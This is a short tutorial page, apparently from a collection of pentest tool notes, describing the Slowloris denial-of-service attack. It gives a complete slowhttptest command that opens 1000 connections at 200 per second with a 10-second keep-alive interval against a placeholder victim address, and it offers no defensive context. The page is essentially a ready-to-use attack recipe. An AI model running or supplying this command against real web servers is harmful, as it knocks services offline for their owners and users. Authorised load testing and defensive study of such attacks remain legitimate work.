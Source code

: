 ```yaml
---
layout: post
title:  "Slowhttptest"
categories: scan deny
summary: Slowlori attack is opening connections to HTTP server and keeps connections open
---
```


{% include instructions.md %}

# {{page.title}}
Slowlori attack is opening connections to HTTP server and keeps connections open. This makes web server to be very slow or unreachable.

Open 1000 connection and send only unfinished HTTP requests. Open 200 new connections per second and keep connections open by sending GET method in every 10 second with maximum length of 24 and wait 3 seconds for response.
{% highlight shell %}
# slowhttptest -c 1000 -H -i 10 -r 200 -t GET -u http://[victim ip address or domain] -x 24 -p 3
{% endhighlight %}

